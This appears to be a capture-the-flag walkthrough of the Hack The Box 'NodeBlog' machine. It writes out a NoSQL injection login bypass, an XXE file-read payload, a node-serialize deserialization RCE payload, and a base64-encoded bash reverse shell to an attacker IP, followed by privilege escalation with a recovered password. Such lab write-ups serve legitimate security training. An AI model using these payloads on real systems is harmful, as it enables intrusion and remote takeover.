

# [NodeBlog](https://app.hackthebox.com/machines/nodeblog)

```bash
nmap -p- --min-rate 5000 10.10.11.139 -Pn 
```


After detection of open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p22,5000 10.10.11.139
```


From nmap scan result, I see that there `Node.js` framework is used, maybe it is `MERN` application.


That's why `NoSQL` language is used for database.

While we see application, we have `login` page for port `5000`.


For testing `NoSQL Injection` payloads, I will do below steps.

1.First, I need to change `Content-Type` header into `application/json`.

2.Then, I need to send below payload which means `user` is admin but password not equal to `ne` to wrongpassword.
```bash
{"user": "admin", "password": {"$ne": "wrongpassword"}}
```


Now, we are on `Portal`, let's see what we can do on this page.


While I try to use `Upload` feature, I have such an error that I need to upload `XML` data.


One thing comes to my mind that there's `XXE` (External XML Entity) attack can be, let's try it out below payload.

```bash
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>dr4ks's Post</title>
        <description>Read File</description>
        <markdown>&file;</markdown>
</post>
```


Let's enumerate system files and application files to understand backend logic.


From errors as below, I see that I need to get this file `/opt/blog/server.js`.


I do the same `XXE` attack but for this source code file.


On source code, I see `node-serialize` that's why there can be attack called `Insecure Deserialization`, that's why I read this [blog](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) to make recap for `node.js` framework about serialization and deserialization of data.


From application's requst field, I got `Cookie` header and decode it on [CyberChef](https://cyberchef.io/).


Let's add our malicious payload as `URL-Encoded` into here.

For this, I will add below payload into request part.
```bash
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.11', function(error, stdout, stderr){console.log(stdout)});}()"}
```


After `URL-Encoding` of this, I send and see result from `tcpdump`.


Now, it's time for `reverse shell`.

1.First, I create my reverse shell cmdlet as `base64` encoded.
```bash
echo 'bash -i >& /dev/tcp/10.10.14.11/1337 0>&1' | base64
```


2.Then add below payload into field as `URL-Encoded`.
```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS8xMzM3IDA+JjEK|base64 -d|bash
```


My deserialized payload is below.
```bash
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS8xMzM3IDA+JjEK|base64 -d|bash', function(error, stdout, stderr){console.log(stdout)});}()"}
```


I got reverse shell from port `1337`.


For privilege escalation, I just make enumeration on here by looking at `open` ports via `netstat`.


There's port `27017` is open which means `mongo`.


Let's do `mongodump` to see data of users.




On `dump` directory, I see `.bson` file, let's dump this via `bsondump` command.


From here, I see password of `admin` user.

admin: IppsecSaysPleaseSubscribe


Let's make `sudo -l` as we know password of admin user.


It means, we can do privilege escalation via just `sudo -s` command.


root.txt


user.txt


